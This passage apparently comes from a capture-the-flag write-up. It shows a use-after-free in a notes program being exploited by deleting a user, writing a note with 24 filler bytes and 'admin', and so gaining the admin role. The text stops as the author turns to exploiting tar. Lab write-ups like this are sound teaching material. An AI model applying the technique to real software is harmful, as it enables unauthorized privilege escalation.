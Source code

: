     
    oxdf@hacky$ pattern_create -l 30
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9
    

I’ll start the program, create a user, delete the user, and then create a note
with that pattern as the body. Then on viewing the user data:

    
    
    Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9
    Role: Aa8Aa9
    

The username now matches the note exactly! And the roles starts 24 bytes in:

    
    
    oxdf@hacky$ pattern_offset -q Aa0A
    [*] Exact match at offset 0
    oxdf@hacky$ pattern_offset -q Aa8A
    [*] Exact match at offset 24
    

To get admin, I’ll again delete the user (`3`), then add a note with 24 bytes
of anything, and then “admin”:

    
    
    Your choice: 4
    
    Write your note:
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin
    

Now it says I have admin:

    
    
    Your choice: 2
    
    
    Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin
    Role: admin
    

And if I enter `8`, it says “Access granted!” before erroring out:

    
    
    Your choice: 8
    
    Access granted!
    tar: Removing leading `/' from member names
    /opt/notes/
    

`/opt/notes/` is empty.

### Exploit tar

#### Identify tar Command

The error seems to have an issue with `tar`. I’ll run `strings` on the binary
to see if the command is in there, and it is:
